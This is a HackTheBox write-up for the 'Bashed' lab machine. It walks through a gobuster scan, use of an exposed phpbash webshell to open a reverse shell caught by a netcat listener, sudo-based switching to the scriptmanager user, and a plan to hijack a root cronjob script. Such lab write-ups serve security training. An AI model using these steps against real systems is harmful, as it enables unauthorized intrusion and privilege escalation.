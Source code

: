 ```yaml
---
title: Bashed writeup
date: 2022-06-17 15:30:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/boxes/bashed/
image: # Thumbnail 
  src: Bashed.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Foothold
When first visiting the site, we get greeted by this page:

![landing page for phpbash](index.png)

It seems that the site is advertising a pentest tool, and they even inform us that it was used on this very server! 

Performing a directory scan with gobuster, we get the following output:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/bashed]
└─$ gobuster dir -u http://10.129.73.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.73.18
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 21:11:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.73.18/images/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.73.18/uploads/]
/php                  (Status: 301) [Size: 310] [--> http://10.129.73.18/php/]    
/css                  (Status: 301) [Size: 310] [--> http://10.129.73.18/css/]    
/dev                  (Status: 301) [Size: 310] [--> http://10.129.73.18/dev/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.73.18/js/]     
Progress: 2282 / 220561 (1.03%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/06/13 21:11:14 Finished
===============================================================
```

Lets start by checking out `/dev`{: .filepath}:

![Contents of /dev](phpbash.png)

It seems like phpbash is already on the server! Let's figure out how it works:

![phpbash in action](phpbashworking.png)

phpbash seems to be a pretty nice webshell. We'll use it to give ourselves a reverse shell on the system. 
```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.73.18] 45376
$ ls
ls
arrexel  scriptmanager
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ 
```
## Privilege escalation
Since we can run any sudo command as scriptmanager we just switch user like so:
```console
$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/home$ 
```
There is a non-standard root-level directory named `/scripts`{: .filepath}. In it we find a file named test.py:
```console
criptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 13 10:27 test.txt
scriptmanager@bashed:/scripts$ 
```

As we can see, the file  simply opens a file test.txt, writes "testing 123!" in it and then closes that file. Based on the timestamp on that file it seems that it is being run as a cronjob by root. 
A way to exploit this is to realise that although root is running the cronjob, the cronjob simply involves executing test.py, which we have access to. We can either replace the file with one that gives us a reverse shell or we can just change what is written to the file, for example root.txt

Rooted!